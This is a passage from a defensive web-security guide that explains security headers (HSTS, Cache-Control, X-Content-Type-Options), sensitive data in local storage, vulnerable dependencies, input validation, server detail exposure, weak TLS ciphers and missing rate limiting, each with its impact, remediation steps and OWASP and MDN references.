X-Content-Type-Options: nosniffEnsure your server is sending correct Content-Type headers for all resources.
Avoid serving files with ambiguous or incorrect MIME types.
Use security middleware or server configuration to automate this header.
🔗 Reference Links:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Content-Type-Options
🛡️ What is Strict-Transport-Security?
The Strict-Transport-Security (HSTS) header is an HTTP response header that enforces browsers to only interact with your website over HTTPS (secure connection).
It tells browsers to automatically convert all HTTP requests to HTTPS for a specified time, preventing insecure HTTP access.
✅ What Is the Use of It?
Prevents SSL/TLS stripping attacks where attackers downgrade HTTPS to HTTP and intercept traffic.
Ensures all communications are encrypted, protecting data integrity and confidentiality.
Improves overall website security by forcing HTTPS usage on clients.
Helps browsers remember your site is HTTPS only (even if users type http://).
⚠️ Impact if the Application Does NOT Implement this Header
Users might access the site over unencrypted HTTP, exposing data to interception or manipulation.
Vulnerable to man-in-the-middle (MITM) attacks where attackers downgrade connections.
Users can be redirected to unsafe versions of your site without knowing.
Loss of user trust and potential regulatory compliance issues.
🛠️ Remediation of the Issue
Add the Strict-Transport-Security header with recommended parameters:
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
max-age=31536000 — enforce HTTPS for 1 year (in seconds).
includeSubDomains — apply rule to all subdomains.
preload — optional, for inclusion in browser preload lists (submit at https://hstspreload.org/).
🔗 Reference Links:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Strict-Transport-Security
https://owasp.org/www-project-secure-headers/#strict-transport-security
https://helmetjs.github.io/docs/hsts/
🛡️ What is Cache-Control?
Cache-Control is an HTTP header used to specify caching policies for browsers and intermediate caches (like proxies or CDNs). It controls how, and for how long, responses are cached to improve performance and reduce server load.
✅ What Is the Use of It?
Controls whether responses can be cached, by whom, and for how long.
Helps improve page load speed by reusing cached content.
Ensures clients get fresh or stale content based on your policy.
Manages cache validation and revalidation.
Controls privacy by preventing sensitive data caching.
⚠️ Impact if the Application Does NOT Implement this Header
Browsers and proxies might cache sensitive data improperly, risking data leaks.
Stale or outdated content may be served to users, causing confusion or errors.
Increased load on your backend servers due to unnecessary repeated requests.
Potential security risks, especially if private data is cached publicly.
Lack of caching may result in poor performance and slower page loads.
🛠️ Remediation of the Issue
Set appropriate Cache-Control headers on the server or CDN.
Use long max-age values for static assets with cache busting (e.g., hashed filenames).
Use no-cache or no-store for sensitive or dynamic data.
Regularly review caching policies to match app requirements.
🔗 Reference Links:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cache-Control
https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header
24. Sensitive Information in Local Storage
📌 What Happens When an Application Stores Sensitive Information in Local Storage?
Local storage is a web storage mechanism that allows websites to store data in the user's browser. It's accessible through JavaScript and persists even after the browser is closed.
When sensitive data (like authentication tokens, passwords, personal user data, or payment info) is stored here, it becomes vulnerable because:
Accessible by any JavaScript running on the page: This means if an attacker manages to inject malicious JavaScript (e.g., via XSS), they can easily access local storage data.
No expiration mechanism: Data stays until explicitly deleted, increasing the risk if the device is shared or compromised.
No encryption: Data is stored as plain text, so anyone with access to the device/browser profile can read it.
⚠️ Impact of Storing Sensitive Information in Local Storage
Cross-Site Scripting (XSS) attacks: If your site is vulnerable to XSS, an attacker can steal tokens or sensitive info from local storage.
Data theft on shared or stolen devices: Anyone with access to the device/browser profile can retrieve the sensitive data.
Session hijacking: Stolen tokens or credentials can allow attackers to impersonate the user.
Non-compliance: Violates security best practices and compliance standards (like GDPR, PCI DSS, HIPAA).
🛠️ Remediation of the Issue
1. Avoid storing sensitive data in local storage entirely.
2. Use secure, httpOnly cookies for sensitive tokens:
Cookies marked as HttpOnly are inaccessible via JavaScript, preventing access from XSS attacks.
Use the Secure flag to ensure cookies are sent only over HTTPS.
Use the SameSite attribute to prevent CSRF attacks.
3. Implement strong Content Security Policy (CSP): Mitigates XSS by restricting the sources of executable scripts.
4. Use proper authentication mechanisms: Use short-lived access tokens with refresh tokens stored securely.
5. Encrypt sensitive data if it must be stored client-side: But preferably avoid this approach.
6. Clear sensitive data from storage on logout or session expiration.
🔗 Reference Links:
https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#local-storage
https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html#session-management
https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API
25. Components with Known Vulnerabilities
📌 What Happens When the Application Uses Components with Known Vulnerabilities?
When an application relies on third-party libraries, frameworks, or components that have known security vulnerabilities, it exposes itself to various risks. These vulnerabilities could be due to bugs, design flaws, or security weaknesses that have already been discovered and documented publicly.
Using such vulnerable components means:
Attackers can exploit these known flaws to compromise the application.
The application inherits the security weaknesses of its dependencies.
It increases the risk of data breaches, unauthorized access, or application malfunction.
⚠️ Impact of Using Components with Known Vulnerabilities
Data compromise: Sensitive information may be leaked or stolen.
Remote code execution: Vulnerabilities can allow attackers to run arbitrary code.
Denial of service: Exploiting vulnerabilities to crash or slow down the application.
Privilege escalation: Attackers gain unauthorized privileges.
Loss of trust & reputation: Users lose confidence in the app's security.
Non-compliance: Failure to meet security standards and regulations.
Chain reaction: Vulnerabilities in dependencies can propagate through your supply chain.
🛠️ Remediation of the Issue
1. Regularly scan and monitor dependencies:
Use automated tools like Dependabot, Snyk, npm audit, OSS Index, or WhiteSource to detect vulnerable packages.
2. Keep dependencies up to date:
Apply security patches and updates promptly.
3. Use trusted and well-maintained libraries:
Prefer popular, actively maintained components with good security records.
4. Minimize dependencies:
Only include necessary libraries to reduce the attack surface.
5. Audit third-party code:
Review critical dependencies manually or with code scanners.
6. Establish a dependency management policy:
Enforce rules around updating and vetting dependencies.
7. Consider alternatives or forks:
If a library is abandoned and vulnerable, consider migrating to a safer alternative or maintaining a patched fork.
🔗 Reference Links:
https://owasp.org/www-project-dependency-check/
https://owasp.org/www-project-software-component-verification-standard/
https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/
26. User input validation
📌 What Happens When the Application Is Not Validating User Input Data?
When an application fails to validate user input, it means it accepts data from users without checking if the data is in the expected format, type, length, or content. This opens the door to many issues because malicious or malformed data can enter your system.
⚠️ Impact of Not Validating User Input
Injection Attacks: Like SQL Injection, Command Injection, or NoSQL Injection where attackers inject malicious queries or commands.
Cross-Site Scripting (XSS): Attackers inject malicious scripts into web pages viewed by other users.
Buffer Overflow: Improper input size handling can crash or compromise the system.
Authentication bypass: If inputs like usernames or tokens aren't properly validated, attackers might bypass controls.
Application crashes or unexpected behavior: Caused by malformed or unexpected input.
Data corruption: Invalid data can corrupt your database or internal logic.
Security misconfigurations: Inputs might be used in config or system calls, leading to vulnerabilities.
🛠️ Remediation of the Issue
1. Implement strict input validation on both client and server sides.
2. Validate by type, format, length, and content: Accept only what's expected.
3. Use allow-list (whitelist) validation rather than deny-list (blacklist).
4. Sanitize inputs: Remove or encode dangerous characters to prevent injections.
5. Use built-in validation libraries or frameworks that are well-maintained.
6. Reject invalid input immediately with meaningful error messages.
7. Perform server-side validation as the ultimate gatekeeper, since client-side validation can be bypassed.
8. Use parameterized queries for database access to avoid injection risks.
9. Encode output to prevent XSS when displaying user input.
🔗 Reference Links:
https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
https://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Forms/Form_validation
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Prevention_Cheat_Sheet.html
27. Exposing Server Details
📌 What Happens When the Application Exposes Server Details via Application Errors or Response Headers?
When an application reveals server details such as: Server software name and version (e.g., Apache/2.4.41), Framework version, Detailed error stack traces or messages,
through HTTP response headers or error pages, it unintentionally gives attackers useful information to craft targeted attacks.
⚠️ Impact of Exposing Server Details
Facilitates targeted attacks: Attackers can identify vulnerabilities specific to the server or framework version.
Increases risk of automated scanning and exploitation: Bots often scan for known vulnerable versions.
Information disclosure: Sensitive internal details can leak, which might help in privilege escalation.
Helps attackers bypass security measures: Knowing exact software makes it easier to exploit known weaknesses.
🛠️ Remediation of the Issue
1. Suppress detailed error messages on production environments: Show generic, user-friendly error pages instead.
2. Remove or modify server response headers that reveal server info:
Common headers to remove or hide:
Server
X-Powered-By
3. Implement centralized error handling:
Log detailed errors internally (not exposed to users).
Present generic messages to clients.
4. Configure your web server and application server to hide version info:
Many servers have config options for this.
5. Perform regular security scans to detect information disclosure.
🔗 Reference Links:
https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration.html
https://cheatsheetseries.owasp.org/cheatsheets/Error_Handling_Cheat_Sheet.html
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Server
https://expressjs.com/en/advanced/best-practice-security.html#disable-x-powered-by-header
28. TLS Cipher Versions
📌 What is the Issue with TLS Cipher Versions?
TLS (Transport Layer Security) is a cryptographic protocol designed to provide secure communication over a computer network. Using outdated or weak TLS versions and cipher suites can expose your application to various security risks.
⚠️ What Is the Impact of TLS 1.0 Ciphers Being Enabled?
TLS 1.0 is an obsolete and insecure protocol version (released in 1999). If TLS 1.0 or its cipher suites are enabled:
1. 🔓 Weak encryption can be broken by modern attackers.
2. 🧪 Susceptible to attacks like BEAST, POODLE, and downgrade attacks.
3. 🚫 Non-compliance with standards such as PCI DSS, which requires disabling TLS 1.0.
4. 🕵️ Data interception by attackers who can exploit known vulnerabilities.
🛠️ Remediation of the Issue
1. Disable TLS 1.0 and TLS 1.1.
2. Enable only TLS 1.2 and TLS 1.3.
Allow only strong cipher suites, such as:
TLS 1.2:
TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384
TLS 1.3:
Built-in strong ciphers, e.g., TLS_AES_128_GCM_SHA256
🔗 Reference Links:
https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
https://csrc.nist.gov/pubs/sp/800/52/r2/final
https://blog.pcisecuritystandards.org/migrating-from-ssl-and-early-tls
29. Rate Limiting
📌 Rate Limiting
A rate limiting vulnerability occurs when an application does not restrict the number of requests a user can make in a given time. This allows attackers to brute force passwords, abuse APIs, or overload servers, leading to account compromise or denial of service. The fix is to implement proper rate limits, lockouts, and monitoring.
Definition: Rate limiting controls how many requests a client can make in a set time.
Vulnerability: If missing or weak, attackers can send unlimited requests without restriction.
Example: A login form allows unlimited password attempts without delay or lockout.
⚠️ Impact of the Issue
Brute Force Attacks: Attackers can guess passwords or OTPs quickly.
Denial of Service (DoS): Excessive requests can overwhelm servers.
Resource Exhaustion: CPU, memory, and bandwidth consumed by malicious traffic.
Business Risk: Service downtime, user account compromise, and reputational damage.
Regulatory Risk: Breaches of personal data may lead to compliance violations.
🎭 Attacker Scenarios & Examples
Password Brute Force: Attacker tries thousands of passwords on a login form until successful.
OTP Guessing: Unlimited attempts to guess a one-time password or reset token.
API Abuse: Attackers scrape data by sending millions of requests to an API endpoint.
Denial of Service: Flooding requests to exhaust server resources and make the service unavailable.
Real-World Example: Many APIs without rate limiting have been exploited to brute force password reset tokens, leading to account takeovers
🛠️ Remediation
Set Request Limits: Define maximum requests per user/IP per minute./p>
Account Lockouts: Temporarily block accounts after repeated failed logins.
CAPTCHA / Bot Detection: Prevent automated scripts from abusing endpoints.
Exponential Backoff: Increase wait time after repeated failed attempts.
Distributed Rate Limiting: Apply limits across load balancers and APIs consistently.
Monitoring & Alerts: Detect unusual traffic spikes and respond quickly.
📚 Reference Links:
https://www.geeksforgeeks.org/computer-networks/no-rate-limiting-flaw-in-cyber-security/
https://owasp.org/API-Security/editions/2019/en/0xa4-lack-of-resources-and-rate-limiting/
https://www.wallarm.com/what/lack-of-resources-rate-limiting